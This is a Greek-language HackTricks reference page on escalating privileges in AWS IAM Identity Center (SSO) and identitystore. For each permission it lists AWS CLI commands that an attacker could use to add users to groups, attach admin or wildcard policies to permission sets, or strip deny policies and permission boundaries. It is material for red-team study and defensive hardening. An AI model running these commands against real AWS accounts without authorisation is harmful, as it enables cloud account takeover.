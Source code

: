 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Για περισσότερες πληροφορίες σχετικά με το AWS Identity Center / AWS SSO ελέγξτε:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Σημειώστε ότι από **προεπιλογή**, μόνο **χρήστες** με δικαιώματα **από** τον **Λογαριασμό Διαχείρισης** θα μπορούν να έχουν πρόσβαση και **να ελέγχουν το IAM Identity Center**.\
Χρήστες από άλλους λογαριασμούς μπορούν να το επιτρέψουν μόνο αν ο λογαριασμός είναι **Ανατεθειμένος Διαχειριστής.**\
[Ελέγξτε τα έγγραφα για περισσότερες πληροφορίες.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Επαναφορά Κωδικού Πρόσβασης~~

Ένας εύκολος τρόπος για να κλιμακώσετε τα δικαιώματα σε περιπτώσεις όπως αυτή θα ήταν να έχετε μια άδεια που να επιτρέπει την επαναφορά κωδικών πρόσβασης χρηστών. Δυστυχώς, είναι μόνο δυνατό να σταλεί ένα email στον χρήστη για να επαναφέρει τον κωδικό του, οπότε θα χρειαστείτε πρόσβαση στο email του χρήστη.

### `identitystore:CreateGroupMembership`

Με αυτή την άδεια είναι δυνατό να τοποθετήσετε έναν χρήστη μέσα σε μια ομάδα ώστε να κληρονομήσει όλα τα δικαιώματα που έχει η ομάδα.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να χορηγήσει επιπλέον άδειες σε ένα Permission Set που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να παραχωρήσει επιπλέον άδειες σε ένα Permission Set που έχει παραχωρηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να χορηγήσει επιπλέον άδειες σε ένα Permission Set που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του.

{% hint style="warning" %}
Για να εκμεταλλευτείτε αυτές τις άδειες σε αυτή την περίπτωση, πρέπει να γνωρίζετε το **όνομα μιας πολιτικής διαχείρισης πελατών που βρίσκεται σε ΟΛΟΥΣ τους λογαριασμούς** που θα επηρεαστούν.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δώσει ένα Permission Set σε έναν χρήστη υπό τον έλεγχό του σε έναν λογαριασμό.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Επιστρέφει τα STS βραχυπρόθεσμα διαπιστευτήρια για ένα δεδομένο όνομα ρόλου που έχει ανατεθεί στον χρήστη.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ωστόσο, χρειάζεστε ένα διακριτικό πρόσβασης που δεν είμαι σίγουρος πώς να αποκτήσετε (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τη σύνδεση μεταξύ μιας διαχειριζόμενης πολιτικής AWS από το συγκεκριμένο σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν περισσότερα προνόμια μέσω **αφαίρεσης μιας διαχειριζόμενης πολιτικής (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τη σύνδεση μεταξύ μιας πολιτικής που διαχειρίζεται ο πελάτης από το καθορισμένο σύνολο αδειών. Είναι δυνατή η χορήγηση περισσότερων προνομίων μέσω **αφαίρεσης μιας διαχειριζόμενης πολιτικής (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τις άδειες από μια inline policy από το permission set. Είναι δυνατόν να παραχωρηθούν **περισσότερες άδειες αποσυνδέοντας μια inline policy (deny policy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει το Permission Boundary από το σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν **περισσότερες άδειες αφαιρώντας τους περιορισμούς στο Permission Set** που δίνονται από το Permission Boundary.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
